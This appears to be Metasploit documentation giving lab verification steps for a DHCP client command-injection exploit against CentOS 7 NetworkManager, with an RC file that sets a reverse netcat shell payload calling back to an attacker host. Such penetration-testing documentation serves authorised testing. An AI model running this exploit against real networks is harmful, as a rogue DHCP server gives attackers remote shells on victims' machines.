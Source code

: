 ## Verification Steps

- Setup CentOS virtual machine and Kali virtual machine
- Ensure proper versions are in use. This was tested on `CentOS Linux release 7.4.1708 (Core)` with NetworkManager version `1.8.0-11.el7_4`
- Create isolated custom network (e.g. 192.168.41.0/24)
- Disable DHCP server on custom network for easier verification 
- Start `msfconsole` on Kali Linux
- `use exploit/unix/dhcp/rhel_dhcp_client_command_injection`
- Configure `SRVHOST` and `NETMASK` required variables
- Configure `PAYLOAD` and supporting options
- Start the DHCP server
- On CentOS 7 machine, request a new DHCP address. Assuming primary interface is `ens33`, you can use: `clear && nmcli conn down id "ens33" && nmcli conn up id "ens33" && ip addr show`
- This should request a new DHCP from your server (if other DHCP servers exist, note that then this becomes a race condition often requiring DHCP NAK's to get your DHCP to win)

Validated using RC File:

```
use exploit/unix/dhcp/rhel_dhcp_client_command_injection
set SRVHOST 192.168.41.129
set NETMASK 255.255.255.0
set PAYLOAD cmd/unix/reverse_netcat
set LHOST 192.168.41.2
set LPORT 1337
exploit -j -z
```
